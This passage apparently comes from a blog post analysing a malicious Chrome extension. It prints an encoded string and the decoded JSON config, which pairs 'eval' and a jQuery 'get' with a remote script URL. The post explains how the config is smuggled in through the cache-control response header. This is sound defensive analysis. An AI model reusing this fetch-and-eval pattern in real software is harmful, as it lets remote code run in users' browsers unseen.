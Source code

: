 ```js
```

For the `strvstrevsstr` function, I’m not too sure if it is worth going too much into detail of what it does. Basically, the only thing we need to know is that it does quite a bit of string manipulation to decode the string to the JSON object we see below.

```js
"NTM2MTEzeChZb1koQTBfFX5pWRY4FFNLexxTNhogb0dlOlFFHHxoLQ1uVFlYBDJ7CHIKZ1pdWlR-eV4xVTNkIUJBMCM6K1UqFUpEEX13bVt6WRFfVjxwSD8KbjUuGx03NSFhGmBhZiExVEUUQFFbOXBUZV13LC1X".strvstrevsstr() // => {"ee":"eval","jj":"$","gg":"get","uu":"https:\/\/s3.amazonaws.com\/g-js\/6afj7be259a48.js?r=12345","cache_c":"1"}
```

```json
{
   "ee":"eval",
   "jj":"$",
   "gg":"get",
   "uu":"https:\/\/s3.amazonaws.com\/g-js\/6afj7be259a48.js?r=12345",
   "cache_c":"1"
}
```

What a strange thing to send to the client. The attacker utilizes the `cache-control` field as a mechanism to transfer a malicious JSON object. Unless we perform some special filtering on the response header that we receive from our requests, this is pretty hard to detect without manual analysis of the code and the network requests coming through.

Once we have this JSON object, each key value pair is stored in the `window` object.

![](https://github.com/Spiderpig86/blog/raw/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%202/ext4.PNG)
